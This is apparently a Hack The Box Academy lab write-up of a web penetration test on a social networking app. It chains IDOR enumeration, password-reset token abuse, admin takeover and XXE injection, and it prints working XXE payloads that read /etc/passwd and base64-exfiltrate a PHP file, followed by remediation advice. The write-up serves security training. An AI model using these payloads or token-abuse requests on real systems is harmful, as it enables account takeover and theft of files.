 # Social Networking Application – Penetration Test Skill Assessment

**Author:** Jordan Davis  
**Platform:** Hack The Box Academy  
**Scenario:** Vulnerability Assessment of a Social Networking Application

---

## 🧠 Overview
This assessment simulated a **web application penetration test** against the latest build of a vulnerable social networking application.  
The objective was to enumerate, identify, and exploit multiple vulnerabilities to ultimately retrieve the final flag.

The engagement demonstrated how a chain of seemingly simple vulnerabilities — **IDOR, broken access control, insecure password reset, privilege escalation, and XXE injection** — can be combined into a full compromise.

---

## 🔑 Key Concepts
- Insecure Direct Object Reference (**IDOR**)  
- Broken Access Control  
- Burp Suite Intruder (parameter fuzzing)  
- Password Reset Token Abuse → Account Takeover  
- Privilege Escalation via Admin Account  
- XML External Entity (**XXE**) Injection  
- `php://filter` Wrapper Exploitation  

---

## 🛠️ Tools & Techniques
- **Burp Suite** (Intruder, Repeater, Proxy)  
- **Custom XML Payloads** for XXE exploitation  
- **Base64 decoding** for source code exfiltration  
- **Parameter fuzzing & token manipulation**  

---

## 📝 Walkthrough / Write-Up

### **Stage 1 – Initial Exploration**
Authenticated with provided test credentials. Observed the following request:

```
GET /api.php/user/74 HTTP/1.1
Cookie: PHPSESSID=...; uid=74
```

Response contained JSON user profile data. The predictable `uid` parameter suggested possible **IDOR**.

---

### **Stage 2 – IDOR Enumeration**
Used **Burp Intruder** to fuzz the `uid` parameter (1–100).  
Confirmed sensitive profile data exposure across users.

![Burp Intruder Fuzzing Attack](Web_Attacks_Module/images/intruder-fuzz.png)

```
{
  "uid": "88",
  "username": "e.hagen",
  "full_name": "Eddie Hagen",
  "company": "Murphy - Hansen"
}
```

✅ **Impact:** Any authenticated user could enumerate all other users.

---

### **Stage 3 – Password Reset Token Abuse**
Discovered endpoint:
```
GET /api.php/token/{uid}
```
Returned valid password reset tokens for all users.  
Exploited by crafting reset requests:

```
GET /reset.php?uid=1&token=<stolen_token>&password=password
```

Result: Arbitrary **account takeover**.  

![Password Reset Abuse](Web_Attacks_Module/images/token-abuse.png)

✅ Confirmed by resetting multiple accounts.

---

### **Stage 4 – Privilege Escalation**
During enumeration, identified admin account:

```
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

Reset password for UID 52 via token abuse. Logged in as **Administrator**, unlocking privileged functionality (XML event creation).

![Admin Enumeration](Web_Attacks_Module/images/admin-enum.png)

✅ **Impact:** Full administrative access.

---

### **Stage 5 – XXE Injection**
The `/addEvent.php` endpoint accepted XML:

```xml
<root>
  <name>test</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Reflected `name` field made it ideal for injection.

**XXE Payload:**
```xml
<!DOCTYPE form [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Result: Retrieved `/etc/passwd`. Confirmed **XXE file read**.

![XXE Exploit](Web_Attacks_Module/images/xxe-exploit.png)

---

### **Stage 6 – Flag Retrieval via php://filter**
Direct `.php` reads failed. Switched to `php://filter` for base64 exfiltration:

```xml
<!DOCTYPE form [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Response returned base64-encoded file contents.  
Decoded locally → retrieved flag. ✅

---

## 🧱 Challenges Faced
- Wasted time fuzzing non-matching payloads.  
- Misjudged filter logic before pivoting to `php://filter`.  
- Token handling required precise request crafting.  

---

## 🛡️ Defense & Remediation

### 🔒 Access Control & IDOR
- Enforce server-side checks restricting data to owner.
- Replace sequential IDs with opaque identifiers (UUIDs).

### 🔑 Password Reset Security
- Tokens must be unpredictable, session-bound, and short-lived.
- Validate rightful ownership before allowing resets.

### 🧑‍💻 Privilege Separation
- Implement strict RBAC controls.
- Audit and restrict administrative endpoints.

### 🛡️ XXE Mitigation
- Disable external entity parsing in XML processors.
- Prefer JSON over XML for data exchange.
- Validate and sanitize all user-supplied input.

---

## 📊 Impact
- **Sensitive data exposure** (IDOR)
- **Arbitrary account takeover** (reset token abuse)
- **Full administrative compromise**
- **Arbitrary file read & source code disclosure**
- **Flag retrieval via XXE exploitation**

---

## ✅ Final Thoughts
This assessment highlighted how **low-to-medium severity issues can chain into complete compromise**:  
- IDOR → Account Takeover  
- Token Abuse → Admin Privileges  
- Admin Access → XXE Exploitation  
- XXE → Sensitive File Disclosure + Flag

This mirrors real-world penetration tests, where multiple misconfigurations compound into high-impact exploitation.

---

## 🔗 Author & Profiles
- **Author:** Jordan Davis  
- [GitHub Profile](https://github.com/jd-cybersec)  
- [LinkedIn Profile](https://www.linkedin.com/in/jordan-davis47/)
